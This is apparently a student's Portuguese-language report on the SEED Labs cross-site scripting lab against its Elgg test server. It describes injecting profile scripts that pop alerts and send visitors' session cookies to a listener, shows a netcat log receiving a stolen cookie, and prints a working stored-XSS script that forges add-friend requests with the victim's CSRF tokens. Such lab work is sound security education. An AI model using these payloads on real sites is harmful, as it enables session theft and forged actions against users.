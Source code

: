 # Trabalho realizado na Semana #10

## **Seed Labs**

## Tarefa 1

Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert.
![alert](images/alert_script.png)
![alert](images/alert.png)



## Tarefa 2


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert com as suas cookies.

![cookie](images/cookie_script.png).png)
![cookie](images/cookie.png)


## Tarefa 3



Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil envie as suas cookies para o endereço à nossa escolha.
![alert](images/send_cookie.png).png)

```

[01/04/22]seed@VM:~/.../Labsetup$ nc -lknv 10.9.0.1 5555
Listening on 10.9.0.1 5555
Connection received on 10.0.2.4 57828
GET /?c=Elgg%3Dpu2btvuk5tn4qja8rmlpu2n7es HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/

```


## Tarefa 4

Quando alguém adiciona o Sammy aos amigos é gerado o seguinte request URL:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ
```

Pelo que o nosso objetivo será gerar esse mesmo request sempre que alguém entrar no perfil de Samy. Conseguimos isso utilizando o seguinte script que é colocado em "About Me" em modo texto:

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

Quando um utilizador visita o perfil de Samy, é gerado o request para adicioná-lo aos amigos. O botão "Add friend" continua a aparecer, mas ao dar refresh este muda para "Remove friend".


![before](images/before.png)


![after](images/after.png)

Utilizando o HTTP Header Live podemos confirmar que o request está a ser gerado quando um utilizador entra no perfil de Samy, como pretendido.

![req](images/request.png)